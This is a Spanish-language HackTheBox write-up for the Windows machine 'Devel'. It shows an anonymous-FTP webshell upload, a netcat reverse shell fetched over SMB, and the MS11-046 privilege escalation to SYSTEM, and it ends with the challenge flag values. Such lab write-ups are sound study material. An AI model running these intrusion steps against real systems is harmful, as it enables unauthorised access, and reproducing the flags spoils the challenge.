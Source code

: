 ```yaml
---
title: HackTheBox - Devel
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, IIS, MS11-046, Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Devel/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Devel Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **IIS, MS11-046, Misconfiguration**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Devel`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Devel/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Devel/02-versions.png)

    + [x] Se encuentra habilitado la opción de **Login como un usuario anónimo en FTP**, con lo cual podemos acceder a este servicio sin necesidad de .credenciales.
    + [x] En el puerto **80** se ejecuta un **`IIS`** (Internet Information Services).

c. Accedemos al servicio **FTP** como **anonymous** y listamos el contenido

```bash
ftp <IP>
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49248|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

* Entramos a la página web y analizamos el código fuente. Veremos que la imagen que se presenta tiene por nombre **welcome.png**, que es el mismo fichero que está en el servicio **FTP**.

* Subiremos un archivo de prueba para ver si podemos acceder a este desde en servicio web.

    ```s
    ftp> put test.txt test.txt
    226 Transfer complete.
    ```

* Ahora vamos al servicio web y accedemos a este recurso

![](/assets/images/HTB/Easy/Devel/03-test.png)

d. Como notamos, el archivo que subimos al servicio **FTP** se refleja en el servicio web, por tanto, subiremos una **`webshell` .aspx** > [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

* Con esto ya podemos ejecutar comandos en la **Máquina Víctima**

    ![](/assets/images/HTB/Easy/Devel/04-webshell.png)

* **Obtener una reverse shell** 🔀

    1. Nos descargamos [nc](https://eternallybored.org/misc/netcat/) en nuestra **`Máquina Atacante`**
    2. Compartimos un recurso por **SMB**: **`impacket-smbserver Share ./ -smb2support`**
    3. En la **webshell** ejecutamos el comando **`copy \\<tun0 IP>\Share\nc.exe C:\Windows\Temp`**
    4. Nos ponemos en escucha en nuestra **`Máquina Atacante`**: **`nc -lvnp 443`**
    5. Ejecutamos netcat en la **`Máquina Víctima a través de la Webshell`**:

        ![](/assets/images/HTB/Easy/Devel/05-reverse.png)

    * **Máquina Atacante**

        ```bash
        connect to [10.10.14.115] from (UNKNOWN) [10.10.10.5] 49245
        Microsoft Windows [Version 6.1.7600]
        Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
        c:\windows\system32\inetsrv>
        ```

### Escalada de Privilegios 💹

a. Enumeramos la información del sistema con **`systeminfo`**

```cmd
OS Name:            Microsoft Windows 7 Enterprise
OS Version:         6.1.7600 N/A Build 7600
OS Manufacturer:    Microsoft Corporation
```

 * Vemos que es una versión antigua de Windows

b. Al buscar por un exploit para esta versión de Windows vemos [ms11-046](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

c. Para transferir este exploit a la **Máquina Víctima** seguiremos los mismos pasos de **Obtener una reverse shell 🔀**

d. Ejecutamos el script y ya tendremos acceso como **Administrador**

```bash
C:\Windows\Temp>ms11-046.exe
c:\Windows\System32>whoami
nt authority\system
```

e. Por último vemos las **flags de usuario y root**

```cmd
c:\Users\babis\Desktop>type user.txt
48d0837eebb3f87ba7cf0be20ee53012

C:\Users\Administrator\Desktop>type root.txt
3ee446d2151a7627cd28cf5e5f4075ce
```